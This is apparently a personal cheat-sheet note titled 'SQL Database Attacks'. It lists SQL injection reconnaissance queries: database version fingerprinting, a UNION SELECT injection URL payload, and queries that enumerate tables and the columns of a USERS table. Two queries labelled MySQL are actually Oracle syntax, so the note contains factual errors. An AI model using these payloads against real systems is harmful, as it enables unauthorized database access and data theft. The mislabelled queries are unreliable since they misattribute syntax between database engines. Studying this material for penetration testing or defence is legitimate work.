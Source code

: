 ```yaml
---
title: SQL Database Attacks
created: '2020-05-22T00:37:53.644Z'
modified: '2020-05-29T23:26:06.762Z'
---
```


# SQL Database Attacks

## Finding datatbase version and type
Microsoft: SELECT @@version
MySQL: SELECT banner FROM v$version
MySQL: SELECT version FROM v$instance
Oracle: SELECT * FROM v$version
PostgreSQL: SELECT version()

Example UNION attack: `http://example.com/param='+UNION+SELECT+@@version--`

## Database tricks

SELECT table_name FROM information_schema.tables

Use this to list out some info about the database(Except Oracle)

## Oracle tricks

SELECT * FROM all_tables

Use this to list tables

SELECT * FROM all_tab_columns WHERE table_name = 'USERS'

Use this to list columns
